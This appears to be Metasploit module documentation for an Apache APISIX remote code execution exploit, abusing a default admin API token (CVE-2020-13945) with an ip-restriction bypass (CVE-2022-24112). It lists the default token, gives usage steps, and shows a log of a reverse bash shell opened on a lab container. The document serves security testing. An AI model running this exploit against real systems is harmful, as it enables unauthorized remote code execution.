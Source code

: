 ## Vulnerable Application

A default configuration of Apache APISIX (with default API key) is vulnerable to remote code execution.

The Apache APISIX has a default API token `edd1c9f034335f136f87ad84b625c8f1` defined at `conf/config.yaml` and in its default configuration
doesn't come with the `ip-restriction` plugin enabled. This allows any user to add a new route in its default configuration. By leveraging
the feature `script` added in the 2.x version an user can add a route which leads to the remote LUA code execution (CVE-2020-13945). Even if
ip-restriction is enabled, this exploit can leverage the vulnerability CVE-2022-24112 to circumvent that restriction.

This module was tested using a vulnerable docker container as available on the
[vulnhub](https://github.com/vulhub/apisix/CVE-2020-13945/docker-compose.yml) project.

If we have the API token we can execute command using the parameter `filter_func` or `script`, and if there is an IP restriction
enabled by the plugin ip-restriction we can bypass this restriction if the batch-requests plugin is also enabled.

### Version and OS
This module has been tested successfully on Apache APISIX 2.2, 2.6, 2.11.0 and 2.12.1

## Verification Steps
Confirm that functionality works:

1. Start `msfconsole`
2. `use exploit/multi/http/apache_apisix_api_default_token_rce`
3. set `RHOSTS` and `RPORT`
4. Confirm the target is vulnerable: `check`
5. Confirm that the target is vulnerable: `The target is vulnerable.`
6. It come already with a default payload `cmd/unix/reverse_bash`
7. set `LHOST` and `LPORT`
8. `exploit`
9. Confirm you have now a cmd session

## Options

### TARGETURI (required)

The path to the APISIX routes controller (Default: `/apisix`).

### API_KEY (required)

The admin API KEY for APISIX (Default: `edd1c9f034335f136f87ad84b625c8f1`).

### ALLOWED_IP (required)

An IP address that is knew to be in the allowed list (Default: `127.0.0.1`).

## Scenarios
```
msf exploit(multi/http/apache_apisix_api_default_token_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf exploit(multi/http/apache_apisix_api_default_token_rce) > run rhosts=127.0.0.1 rport=9080 lhost=docker0 lport=4444

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking component version to 127.0.0.1:9080
[+] The target appears to be vulnerable.
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.18.0.4:48162 ) at 2022-02-28 18:32:50 +0100
id

uid=99(nobody) gid=99(nobody) groups=99(nobody)
uname -a
Linux 58f5aba16de9 5.16.8-arch1-1 #1 SMP PREEMPT Tue, 08 Feb 2022 21:21:08 +0000 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 127.0.0.1 - Command shell session 1 closed.
msf exploit(multi/http/apache_apisix_api_default_token_rce) > 
```
